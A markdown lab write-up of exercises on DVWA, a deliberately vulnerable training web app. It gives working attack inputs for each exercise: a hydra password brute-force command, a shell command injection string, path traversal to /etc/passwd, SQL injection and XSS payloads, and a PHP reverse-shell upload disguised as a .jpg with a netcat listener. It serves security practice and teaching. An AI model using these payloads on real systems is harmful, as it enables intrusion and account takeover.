


# DVWA

## brute force

the URL pattern for the brute-force site was `$MACHINE_IP/dvwa/vulnerabilities/brute/?username=$USERNAME&password=$PASSWORD&Login=Login`

so, i used hydra like this to brute-force and get the admin password

`hydra $MACHINE_IP -V -l admin -P /usr/share/wordlists/rockyou.txt http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=d006e679c1ab21fcc268029736bd7d67; security=low" -t 5 -I`

## command execution

* we have the option to ping any IP address
* so, the backend of this feature be something like

```bash
ping $USER_INPUT_IP
```

* in bash, multiple commands can be executed in a single line using `;` (used to end the current command)
* therefore, we can try entering this as in the IP input area

```bash
; pwd; whoami; uname -a
```

sucessfully, we get



command execution can further be used to obtain a **bash reverse shell** and proceed with privilege execution to get complete access

## csrf

* we are presented with the option to change our password
* to make things easier, the old password isn't even required here
* upon intercepting the password in burp, we notice that a GET request is sent for the password change with query strings


* therefore, a simple-looking website that loads an 'image' with source as the password URL will do

example code used to achieve csrf:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DVWA CSRF Test</title>
</head>
<body>
    
</body>
</html>
```

therefore, on visiting the html file through browser, a request is sent to the URL with the new password and the password is changed


## file inclusion

**URL structure:**

```http
http://$MACHINE_IP/dvwa/vulnerabilities/fi/?page=include.php
```

it is instructed to replace `index.php` with the file we need to display

a general POC for testing file inclusion is to display `/etc/passwd` which can then be used to access other sensitive files and maybe upload a malicious file (rev shell usually) to access later (ref [upload](#i))

**attempt 1:**

```http
http://$MACHINE_IP/dvwa/vulnerabilities/fi/?page=../../etc/passwd
```

gives us this


this makes it clear that we have to go back **5 directories** before we reach the root

**attempt 2:**

```http
http://$MACHINE_IP/dvwa/vulnerabilities/fi/?page=../../../../../etc/passwd
```

gives us this


## sqli

entering `1` gives us the ID that we entered, first name and last name of the person with that ID


therfore, the sql query must be something similar to

```sql
SELECT FIRST_NAME, LAST_NAME FROM Accounts WHERE ID='$USER_INPUT_ID'
```

so we can bypass it when `$USER_INPUT_ID = 1' OR '1'='1`, giving us this which is always true and will therefore return the details of all the users in the table

```sql
SELECT FIRST_NAME, LAST_NAME FROM Accounts WHERE ID='1' OR '1'='1'
```


## blind sqli

blind sqli is when you try 2 different sql queries one where it passes and one where it fails - if the output is different, then the site is vulnerable to sqli

**attempt 1:**

try with a proper input - `2`


as expected, just the details of the user with id = 2

**attempt 2:**

try with a query that would fail - `2 AND '1'='2'-- -`


no output

**attempt 3:**

not necessary, but try with a query that will pass - `2 AND '1'='1'-- -`


same as **attempt 1** but the id field contains the query as well

**breakin:**

now that we know that site is vulnerable to sqli, we can try this - `2 OR '1'='1'-- -`


details of all the users

## upload



i grabbed this reverse shell from `/usr/share/webshells/php/php-backdoor-shell.php`, edited the values and uploaded it

in the background, i started netcat with `nc -lvnp 1234`

i received errors, so i figured the web app must be splitting the file at `.` and checking the extension for image file types

so, i renamed the shell from `rs.php` to `rs.png` which didn't work because the webapp expected only `jpeg` files

so finally i tried `rs.jpg` and uploading it hoping the mime-type will be sniffed based on the contents of the file and the rev shell worked as expected

## xss reflected

when we enter this in the text box, we get a popup sucessfully, verifying the presence of reflected XSS (since input data isn't stored)

```html
<script>alert(1)</script>
```

## xss stored

since the `Name` textbox has a character limit, it might not be possible to xss it

moving on, a simple `<script>alert()</script>` in the `Message` textbox works as expected and produces an alert everytime the page is refreshed
